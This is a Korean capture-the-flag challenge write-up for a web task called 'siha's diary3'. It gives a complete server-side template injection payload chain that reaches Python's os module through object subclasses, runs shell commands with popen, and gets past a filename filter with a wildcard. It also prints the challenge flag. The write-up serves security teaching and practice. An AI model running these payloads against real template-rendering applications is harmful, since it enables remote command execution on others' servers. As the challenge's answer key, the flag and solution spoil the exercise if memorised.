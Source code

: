 # siha's diary3

> author: 최경재(siha) / difficulty: medium / points: 400

## Description

siha가 지난 사이트의 취약점을 패치했다고 한다, 그런데... 여전한 것 같은데?

## Hint
- SSTI로는 생각보다 많은 일을 할 수 있다! diaries/flag.txt의 내용을 열어보려면 어떻게 해야 할까? (50)
- os.system() 또는 os.popen() 함수를 실행하는 게 최종적인 목표다! (100)

## Write up

주석 처리된 코드를 살펴보면 flag.txt 파일이 일기중에 존재한다는 것을 알 수 있는데,
flag 문자열이 필터링되어 바로 열어볼 수가 없다.

search 파라미터에 {{ 1+1 }}을 넣어보면 2가 출력되는 것을 확인할 수 있다.
이는 Server side template injection이 가능함을 뜻한다. (siha's diary2와 동일)

'3.5.2 (default, Nov 17 2016, 17:05:23) \n[GCC 5.4.0 20160609]' 위 버전을 기준으로, 페이로드는

```
{{ ().__class__.__base__.__subclasses__()[391] }}
>>> <class 'warnings.catch_warnings'>

{{ ().__class__.__base__.__subclasses__()[391].__init__.__globals__['sys'] }}
>>> <module 'sys' (built-in)>

{{ ().__class__.__base__.__subclasses__()[391].__init__.__globals__['sys'].modules['os'] }}
>>> <module 'os' from '~/lib/python3.5/os.py'> 

{{ ().__class__.__base__.__subclasses__()[391].__init__.__globals__['sys'].modules['os'] }}
>>> <module 'os' from '~/lib/python3.5/os.py'> 

{{ ().__class__.__base__.__subclasses__()[391].__init__.__globals__['sys'].modules['os'].popen('ls diaries').read() }}
>>> flag.txt myforthwebsite.txt phrase1.txt phrase2.txt poem.txt poem2.txt

{{ ().__class__.__base__.__subclasses__()[391].__init__.__globals__['sys'].modules['os'].popen('ls diaries').read() }}
>>> flag.txt myforthwebsite.txt phrase1.txt phrase2.txt poem.txt poem2.txt

{{ ().__class__.__base__.__subclasses__()[391].__init__.__globals__['sys'].modules['os'].popen('cat diaries/flag.txt').read() }}
>>> GO AWAY HACKER!

{{ ().__class__.__base__.__subclasses__()[391].__init__.__globals__['sys'].modules['os'].popen('cat diaries/f*.txt').read() }}
>>> GuardianCTF{73mpl473_1nj3c710n_15_4m4z1n6}

```



## How to run

```
pip install -r requirements.txt
python app.py
```

## flag

GuardianCTF{73mpl473_1nj3c710n_15_4m4z1n6}